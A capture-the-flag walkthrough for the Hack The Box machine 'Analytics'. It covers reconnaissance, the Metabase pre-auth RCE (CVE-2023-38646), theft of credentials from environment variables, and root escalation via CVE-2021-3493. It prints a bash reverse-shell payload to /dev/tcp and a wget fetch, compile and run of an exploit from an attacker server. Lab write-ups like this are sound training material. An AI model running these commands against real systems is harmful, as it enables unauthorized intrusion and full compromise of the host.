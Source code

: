 # HTB Machine Walkthrough: Analytics

  

---
> [!IMPORTANT]
> **Please use this as a hint or guide if you're blocked at some point of this machine. I make these files for myself and to help some friends that are also doing these machines.**

---

> [!NOTE]
> **Try to get as far as you can by yourself or you will never learn to solve machines alone. Hope you the best and happy hacking <3.**
---

  

## 1. Fast Nmap Scan on the Provided IP

Start by scanning all ports to identify the open ones:

```bash
nmap -sS -p- --min-rate 5000 $machine_ip -vvv -oN nmap.txt
```

This reveals ports 22 (SSH) and 80 (HTTP) are open. ( I try to save the scan results just in case i need something of it later )

## 2. Recognition


Perform a service detection scan to identify versions and services:

```bash
nmap -p22,80 -sCV $machine_ip -vvv -oN serv_recon.txt
```

The results show that port 80 hosts an `nginx/1.18.0` server that redirects to `http://analytical.htb/`.

To discover subdomains, use FFUF:

```bash

ffuf -u  http://$machine_ip -H "Host: FUZZ.analytical.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

```

A subdomain `data.analytical.htb` is identified, which reveals a Metabase login page when accessed.

  

## 3. Exploit Phase

  

### Exploiting CVE-2023-38646

  

Metabase is vulnerable to a pre-authenticated remote code execution vulnerability.

Retrieve the `setup-token` using the API endpoint:

```bash

curl http://data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'

```
Prepare a reverse shell payload:

```bash

echo 'bash -i >& /dev/tcp/$YourMachine_IP/$NC_ListenerPort 0>&1' | base64

```
Start a netcat listener to capture the reverse shell:

```bash

nc -lnvp $NC_ListenerPort

```

Use Burp Suite or curl to send a crafted POST request to exploit the vulnerability. This provides access as the `metabase` user in a Docker container.

  

## 4. Privilege Escalation to "metalytics"

Inspect environment variables to find credentials (linpeas also works) :
```bash
env
```

The variables reveal credentials for the user `metalytics`. Use SSH to log in:
```bash
ssh  metalytics@$machine_ip
```
Now as user, retrieve and submit the user flag
```bash
cat user.txt
```
## 5. Privilege Escalation to Root

Check the kernel version for known vulnerabilities:
```bash
uname  -r
```

For this machine, [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493/tree/main) so you just have to get into the repository and follow the steps to take advantage of this vector.
  

On your local machine open a simple http server with python so you can send the file to the target:

```bash
python3  -m  http.server  8080
```

  

On the target machine, get the expoit, compile it with gcc and execute it:

```bash
wget  http://10.10.14.101:8080/exploit.c

gcc  exploit.c  -o  exploit

./exploit
```
Now you should be root user, now just retrieve the root flag and submit it.

```bash

cat  /root/root.txt

```

  

---

**Congratulations: Machine completed**

---
